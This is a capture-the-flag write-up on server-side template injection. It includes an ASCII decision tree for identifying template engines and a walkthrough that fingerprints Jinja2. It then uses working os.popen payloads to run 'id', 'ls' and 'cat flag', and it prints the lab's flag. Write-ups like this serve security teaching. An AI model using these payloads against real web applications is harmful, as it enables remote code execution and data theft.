








# SSTI1

( Just use hint if you can't solve it )
## What is 'Server Side Template Injection' ?
The dev can use Template Engine to build dyamic web more easy -> hello {{user}}

-> big promblem that user can change the content in {{...}} 

-> can be hack 
```
Path to check:

                                             |
                   +-------------------------+-------------------------+
                   |                                                   |
                 {{7*7}}                                            ${7*7}
                   |                                                   |
        +----------+----------+                             +----------+----------+
        |                     |                             |                     |
        49                  None                            49                  None
        |                     |                             |                     |
    {{7*'7'}}               <%= 7*7 %>               ${"z".join("ab")}          #{7*7}
        |                     |                             |                     |
  +-----+-----+         +-----+-----+                 +-----+-----+         +-----+-----+
  |           |         |           |                 |           |         |           |
49          7777777    49           None            zab          None       49         None
  |           |         |           |                 |           |         |           |
  |           |                   {7*7}          [MNEAL]    [FreeMarker] [Ruby]       {{.
(Twig/     (Jinja2/  (EJS /         |                        (Java)      (ERB /     (Go Template?)
 Tornado)   Django)   ERB)     +----+----+                                Slim)
                               |         |
                              49        None
                               |         |
                           [Smarty]  [Handlebars / Pug]

*None is not thing change or error
```
## Walkthough
After user path to check, after all i find it is Jinja2/Django.
*U can use [hacktricks](https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) to find what kind of this Injection.*



Let use {{config}} to test


Alright, i think it 99% to Jinja2 so i gonna use some template in [hacktricks](https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) say (if it can't use, we can find different way latter)


Now we will test with 
```{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}```



let's change id to sth else that i think we can use

```{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}```

**ls to list**
>__pycache__ app.py flag requirements.txt



```{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}```



```academy{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_31d5a337}```



